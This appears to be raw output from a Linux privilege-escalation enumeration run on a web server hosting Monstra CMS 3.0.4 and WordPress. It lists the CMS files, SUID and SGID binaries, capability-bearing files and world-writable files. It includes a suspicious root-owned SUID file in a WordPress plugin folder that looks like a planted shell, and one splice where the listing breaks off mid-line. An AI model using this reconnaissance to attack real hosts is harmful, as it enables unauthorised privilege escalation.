drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  420 Apr  5  2016 block.view.php
-rwxr-xr-x 1 root root  568 Apr  5  2016 breadcrumbs.view.php
-rwxr-xr-x 1 root root  453 Apr  5  2016 index.view.php
-rwxr-xr-x 1 root root  907 Apr  5  2016 pager.view.php
-rwxr-xr-x 1 root root  305 Apr  5  2016 related_posts.view.php
-rwxr-xr-x 1 root root  249 Apr  5  2016 tags.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box:
total 68K
drwxr-xr-x 17 root root 4.0K Apr  5  2016 .
drwxr-xr-x  9 root root 4.0K Apr  5  2016 ..
drwxr-xr-x  5 root root 4.0K Apr  5  2016 backup
drwxr-xr-x  6 root root 4.0K Apr  5  2016 blocks
drwxr-xr-x  6 root root 4.0K Apr  5  2016 dashboard
drwxr-xr-x  4 root root 4.0K Apr  5  2016 editor
drwxr-xr-x  6 root root 4.0K Apr  5  2016 emails
drwxr-xr-x  7 root root 4.0K Apr  5  2016 filesmanager
drwxr-xr-x  5 root root 4.0K Apr  5  2016 information
drwxr-xr-x  6 root root 4.0K Apr  5  2016 menu
drwxr-xr-x  6 root root 4.0K Apr  5  2016 pages
drwxr-xr-x  6 root root 4.0K Apr  5  2016 plugins
drwxr-xr-x  5 root root 4.0K Apr  5  2016 sitemap
drwxr-xr-x  6 root root 4.0K Apr  5  2016 snippets
drwxr-xr-x  5 root root 4.0K Apr  5  2016 system
drwxr-xr-x  5 root root 4.0K Apr  5  2016 themes
drwxr-xr-x  6 root root 4.0K Apr  5  2016 users

/var/www/html/webservices/monstra-3.0.4/plugins/box/backup:
total 28K
drwxr-xr-x  5 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 3.9K Apr  5  2016 backup.admin.php
-rwxr-xr-x  1 root root  619 Apr  5  2016 backup.plugin.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages
drwxr-xr-x  3 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/box/backup/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  458 Apr  5  2016 backup.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/backup/languages:
total 84K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  520 Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root  970 Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root 1.1K Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root  604 Apr  5  2016 fa.lang.php
-rwxr-xr-x 1 root root  551 Apr  5  2016 fr.lang.php
-rwxr-xr-x 1 root root  569 Apr  5  2016 hu.lang.php
-rwxr-xr-x 1 root root  550 Apr  5  2016 id.lang.php
-rwxr-xr-x 1 root root  506 Apr  5  2016 it.lang.php
-rwxr-xr-x 1 root root  571 Apr  5  2016 ja.lang.php
-rwxr-xr-x 1 root root  546 Apr  5  2016 lt.lang.php
-rwxr-xr-x 1 root root  523 Apr  5  2016 nl.lang.php
-rwxr-xr-x 1 root root  566 Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root  515 Apr  5  2016 pt-br.lang.php
-rwxr-xr-x 1 root root  913 Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root  543 Apr  5  2016 sk.lang.php
-rwxr-xr-x 1 root root  516 Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root 1013 Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root  583 Apr  5  2016 uk.lang.php
-rwxr-xr-x 1 root root  492 Apr  5  2016 zh-cn.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/backup/views:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 backend

/var/www/html/webservices/monstra-3.0.4/plugins/box/backup/views/backend:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 2.4K Apr  5  2016 index.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/blocks:
total 36K
drwxr-xr-x  6 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 7.2K Apr  5  2016 blocks.admin.php
-rwxr-xr-x  1 root root 3.0K Apr  5  2016 blocks.plugin.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 js
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages
drwxr-xr-x  3 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/box/blocks/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  466 Apr  5  2016 blocks.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/blocks/js:
total 16K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root   31 Apr  5  2016 .htaccess
-rwxr-xr-x 1 root root  379 Apr  5  2016 blocks.js

/var/www/html/webservices/monstra-3.0.4/plugins/box/blocks/languages:
total 88K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 1.4K Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root 1.4K Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root 1.5K Apr  5  2016 fa.lang.php
-rwxr-xr-x 1 root root 1.4K Apr  5  2016 fr.lang.php
-rwxr-xr-x 1 root root 1.4K Apr  5  2016 hu.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 id.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 it.lang.php
-rwxr-xr-x 1 root root 1.5K Apr  5  2016 ja.lang.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 ka-ge.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 lt.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 nl.lang.php
-rwxr-xr-x 1 root root 1.4K Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 pt-br.lang.php
-rwxr-xr-x 1 root root 1.6K Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 sk.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root 1.6K Apr  5  2016 uk.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 zh-cn.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/blocks/views:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 backend

/var/www/html/webservices/monstra-3.0.4/plugins/box/blocks/views/backend:
total 20K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 1.5K Apr  5  2016 add.view.php
-rwxr-xr-x 1 root root 1.8K Apr  5  2016 edit.view.php
-rwxr-xr-x 1 root root 2.9K Apr  5  2016 index.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/dashboard:
total 32K
drwxr-xr-x  6 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 3.1K Apr  5  2016 dashboard.admin.php
-rwxr-xr-x  1 root root  678 Apr  5  2016 dashboard.plugin.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 js
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages
drwxr-xr-x  3 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/box/dashboard/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  478 Apr  5  2016 dashboard.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/dashboard/js:
total 20K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root   31 Apr  5  2016 .htaccess
-rwxr-xr-x 1 root root 6.4K Apr  5  2016 ganalytics.js

/var/www/html/webservices/monstra-3.0.4/plugins/box/dashboard/languages:
total 44K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  336 Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root  322 Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root  335 Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root  412 Apr  5  2016 ka-ge.lang.php
-rwxr-xr-x 1 root root  333 Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root  365 Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root  340 Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root  316 Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root  378 Apr  5  2016 uk.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/dashboard/views:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 backend

/var/www/html/webservices/monstra-3.0.4/plugins/box/dashboard/views/backend:
total 16K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 4.0K Apr  5  2016 ga.view.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 index.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/editor:
total 20K
drwxr-xr-x  4 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root  871 Apr  5  2016 editor.plugin.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages

/var/www/html/webservices/monstra-3.0.4/plugins/box/editor/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 4 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  458 Apr  5  2016 editor.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/editor/languages:
total 84K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 4 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  151 Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root  151 Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root  151 Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root  179 Apr  5  2016 fa.lang.php
-rwxr-xr-x 1 root root  155 Apr  5  2016 fr.lang.php
-rwxr-xr-x 1 root root  167 Apr  5  2016 hu.lang.php
-rwxr-xr-x 1 root root  151 Apr  5  2016 it.lang.php
-rwxr-xr-x 1 root root  158 Apr  5  2016 ja.lang.php
-rwxr-xr-x 1 root root  207 Apr  5  2016 ka-ge.lang.php
-rwxr-xr-x 1 root root  166 Apr  5  2016 lt.lang.php
-rwxr-xr-x 1 root root  151 Apr  5  2016 nl.lang.php
-rwxr-xr-x 1 root root  153 Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root  154 Apr  5  2016 pt-br.lang.php
-rwxr-xr-x 1 root root  177 Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root  151 Apr  5  2016 sk.lang.php
-rwxr-xr-x 1 root root  155 Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root  166 Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root  179 Apr  5  2016 uk.lang.php
-rwxr-xr-x 1 root root  156 Apr  5  2016 zh-cn.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/emails:
total 32K
drwxr-xr-x  6 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
drwxr-xr-x  2 root root 4.0K Apr  5  2016 css
-rwxr-xr-x  1 root root 2.5K Apr  5  2016 emails.admin.php
-rwxr-xr-x  1 root root  658 Apr  5  2016 emails.plugin.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages
drwxr-xr-x  4 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/box/emails/css:
total 28K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root   31 Apr  5  2016 .htaccess
-rwxr-xr-x 1 root root  14K Apr  5  2016 inc.css

/var/www/html/webservices/monstra-3.0.4/plugins/box/emails/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  470 Apr  5  2016 emails.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/emails/languages:
total 44K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  845 Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root  809 Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root  849 Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root 1.4K Apr  5  2016 ka-ge.lang.php
-rwxr-xr-x 1 root root  842 Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root 1.1K Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root  807 Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root  853 Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root  818 Apr  5  2016 uk.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/emails/views:
total 16K
drwxr-xr-x 4 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 backend
drwxr-xr-x 2 root root 4.0K Apr  5  2016 emails

/var/www/html/webservices/monstra-3.0.4/plugins/box/emails/views/backend:
total 16K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 4 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 1.4K Apr  5  2016 edit.view.php
-rwxr-xr-x 1 root root 1.4K Apr  5  2016 index.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/emails/views/emails:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 4 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root   67 Apr  5  2016 email_layout.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager:
total 44K
drwxr-xr-x  7 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
drwxr-xr-x  2 root root 4.0K Apr  5  2016 css
-rwxr-xr-x  1 root root  11K Apr  5  2016 filesmanager.admin.php
-rwxr-xr-x  1 root root  652 Apr  5  2016 filesmanager.plugin.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 js
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages
drwxr-xr-x  3 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager/css:
total 16K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 7 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root   31 Apr  5  2016 .htaccess
-rwxr-xr-x 1 root root  900 Apr  5  2016 style.css

/var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 7 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  493 Apr  5  2016 filesmanager.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager/js:
total 24K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 7 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root   31 Apr  5  2016 .htaccess
-rwxr-xr-x 1 root root 1.9K Apr  5  2016 filesmanager.js
-rwxr-xr-x 1 root root 4.4K Apr  5  2016 fileuploader.js

/var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager/languages:
total 88K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 7 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  613 Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root 1.7K Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root 2.1K Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 fa.lang.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 fr.lang.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 hu.lang.php
-rwxr-xr-x 1 root root 1.9K Apr  5  2016 id.lang.php
-rwxr-xr-x 1 root root 1.9K Apr  5  2016 it.lang.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 ja.lang.php
-rwxr-xr-x 1 root root 3.4K Apr  5  2016 ka-ge.lang.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 lt.lang.php
-rwxr-xr-x 1 root root 1.9K Apr  5  2016 nl.lang.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root 1.9K Apr  5  2016 pt-br.lang.php
-rwxr-xr-x 1 root root 2.9K Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root 1.9K Apr  5  2016 sk.lang.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root 1.8K Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root 2.1K Apr  5  2016 uk.lang.php
-rwxr-xr-x 1 root root  589 Apr  5  2016 zh-cn.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager/views:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 7 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Feb 21  2018 backend

/var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager/views/backend:
total 20K
drwxr-xr-x 2 root root 4.0K Feb 21  2018 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  11K Feb 21  2018 index.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/information:
total 28K
drwxr-xr-x  5 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root  625 Apr  5  2016 information.admin.php
-rwxr-xr-x  1 root root  653 Apr  5  2016 information.plugin.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages
drwxr-xr-x  3 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/box/information/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  478 Apr  5  2016 information.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/information/languages:
total 92K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 2.7K Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root 3.1K Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root 3.2K Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root 3.6K Apr  5  2016 fa.lang.php
-rwxr-xr-x 1 root root 3.4K Apr  5  2016 fr.lang.php
-rwxr-xr-x 1 root root 3.0K Apr  5  2016 hu.lang.php
-rwxr-xr-x 1 root root 2.6K Apr  5  2016 id.lang.php
-rwxr-xr-x 1 root root 3.2K Apr  5  2016 it.lang.php
-rwxr-xr-x 1 root root 3.4K Apr  5  2016 ja.lang.php
-rwxr-xr-x 1 root root 4.4K Apr  5  2016 ka-ge.lang.php
-rwxr-xr-x 1 root root 3.0K Apr  5  2016 lt.lang.php
-rwxr-xr-x 1 root root 2.7K Apr  5  2016 nl.lang.php
-rwxr-xr-x 1 root root 3.2K Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root 3.4K Apr  5  2016 pt-br.lang.php
-rwxr-xr-x 1 root root 3.8K Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root 3.2K Apr  5  2016 sk.lang.php
-rwxr-xr-x 1 root root 3.1K Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root 3.2K Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root 3.8K Apr  5  2016 uk.lang.php
-rwxr-xr-x 1 root root 3.0K Apr  5  2016 zh-cn.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/information/views:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 backend

/var/www/html/webservices/monstra-3.0.4/plugins/box/information/views/backend:
total 20K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 9.5K Apr  5  2016 index.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/menu:
total 40K
drwxr-xr-x  6 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 js
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages
-rwxr-xr-x  1 root root  12K Apr  5  2016 menu.admin.php
-rwxr-xr[-] SUID files:
-rwsr-xr-x 1 root root 26492 Nov 30  2017 /bin/umount
-rwsr-xr-x 1 root root 34812 Nov 30  2017 /bin/mount
-rwsr-xr-x 1 root root 38932 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30112 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 38900 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 157424 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 43316 May  7  2014 /bin/ping6
-rwSr--r-T 1 root root 150667 Mar  9  2018 /var/www/html/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ȜӎŗgͷͼȜ_5h377
-rwsr-xr-x 1 root root 18216 Jan 17  2016 /usr/bin/pkexec
-rwsr-xr-x 1 root root 34680 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 48264 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 39560 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 159852 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 78012 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 36288 May 16  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 53128 May 16  2017 /usr/bin/passwd
-rwsr-sr-x 1 daemon daemon 50748 Jan 14  2016 /usr/bin/at
-rwsr-xr-x 1 root root 36288 May 16  2017 /usr/bin/newuidmap
-rwsr-xr-- 1 root messagebus 46436 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 513528 Jan 18  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 13960 Jan 17  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 42396 Jun 14  2017 /usr/lib/i386-linux-gnu/lxc/lxc-user-nic
-rwsr-sr-x 1 root root 105004 Apr 11  2018 /usr/lib/snapd/snap-confine


[+] Possibly interesting SUID files:
-rwsr-xr-x 1 root root 513528 Jan 18  2018 /usr/lib/openssh/ssh-keysign


[-] GUID files:
-rwxr-sr-x 1 root shadow 38664 Apr  9  2018 /sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 38684 Apr  9  2018 /sbin/pam_extrausers_chkpwd
-rwxr-sr-x 1 root mlocate 34452 Nov 18  2014 /usr/bin/mlocate
-rwxr-sr-x 1 root ssh 431632 Jan 18  2018 /usr/bin/ssh-agent
-rwxr-sr-x 1 root crontab 38996 Apr  5  2016 /usr/bin/crontab
-rwxr-sr-x 1 root tty 9788 Mar  1  2016 /usr/bin/bsd-write
-rwxr-sr-x 1 root shadow 22000 May 16  2017 /usr/bin/expiry
-rwxr-sr-x 1 root utmp 464152 Feb  7  2016 /usr/bin/screen
-rwxr-sr-x 1 root shadow 61276 May 16  2017 /usr/bin/chage
-rwxr-sr-x 1 root tty 26356 Nov 30  2017 /usr/bin/wall
-rwsr-sr-x 1 daemon daemon 50748 Jan 14  2016 /usr/bin/at
-rwxr-sr-x 1 root utmp 5480 Mar 11  2016 /usr/lib/i386-linux-gnu/utempter/utempter
-rwsr-sr-x 1 root root 105004 Apr 11  2018 /usr/lib/snapd/snap-confine


[+] Possibly interesting GUID files:
-rwxr-sr-x 1 root ssh 431632 Jan 18  2018 /usr/bin/ssh-agent


[+] Files with POSIX capabilities set:
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep


[-] World-writable files (excluding /proc and /sys):
-rw-rw-rw- 1 root root 730 Feb 21  2018 /var/www/html/webservices/monstra-3.0.4/sitemap.xml
-rw-rw-rw- 1 root root 141 Feb 21  2018 /var/www/html/webservices/monstra-3.0.4/storage/pages/1.page.txt
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/user.slice/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/init.scope/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/irqbalance.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/lxd-containers.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/lvm2-lvmetad.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/apport.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/polkitd.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/sys-kernel-debug.mount/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/boot.mount/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/open-iscsi.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-random-seed.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/dev-disk-by-id-dm-uuid-LVM-s9b7Qx7RdzbrmpOLal9Vd2L5RXPTLJKehaXQcTHrD2H6zIUuvD5n0QYH6yEDLjUn.swap/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/grub-common.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-journal-flush.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-timesyncd.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/systemd-user-sessions.service/cgroup.event_control
--w--w--w- 1 root root 0 Nov  5 18:43 /var/lib/lxcfs/cgroup/memory/system.slice/sys-kernel-config.mount/cgroup.event_control
